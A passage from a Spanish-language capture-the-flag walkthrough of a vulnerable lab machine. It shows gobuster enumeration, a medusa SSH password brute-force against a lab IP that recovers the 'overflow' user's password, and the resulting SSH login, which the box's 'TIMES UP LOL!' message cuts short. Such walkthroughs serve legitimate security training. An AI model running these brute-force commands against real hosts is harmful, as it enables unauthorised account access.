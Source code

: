 Probamos `gobuster`{: .filepath} para ambos paths `/`y `/secret/` pero no conseguimos información relevante.


## Explotación

---

Vamos a continuar realizando fuerza bruta mediante `medusa` sobre el protocolo SSH, con los archivos que encontramos, `which_one_lol.txt` y `Pass.txt` bajo el diccionario `rockyou`.

El resultado no muestra nada, lo cual parece ser una trampa, pero revisando la url `/0x0856BF/this_folder_contains_the_password`, si prestamos atención al mensaje, dice que la carpeta contiene la contraseña pero no el archivo `Pass.txt`{: .filepath}, con lo cual `Pass.txt` puede resultar siendo una clave, lo agregamos al archivo `Pass.txt` y probamos `medusa`{: .filepath}.

```bash
❯ medusa -h 10.11.12.13 -U which_one_lol.txt -P Pass.txt -M ssh -t 2
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 10.11.12.13 (1 of 1, 0 complete) User: overflow (10 of 10, 8 complete) Password: Pass.txt (1 of 2 complete)
ACCOUNT FOUND: [ssh] Host: 10.11.12.13 User: overflow Password: Pass.txt [SUCCESS]
```

*Efectivamente, es la contraseña del usuario overflow.* 

Nos conectamos por SSH con los datos obtenidos.

```bash
❯ ssh overflow@10.11.12.13
overflow@10.11.12.13's password:
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Aug 13 01:14:09 2014 from 10.0.0.12
Could not chdir to home directory /home/overflow: No such file or directory

Broadcast Message from root@trol
        (somewhere) at 16:10 ...

TIMES UP LOL!

Connection to 10.11.12.13 closed by remote host.
Connection to 10.11.12.13 closed.
```
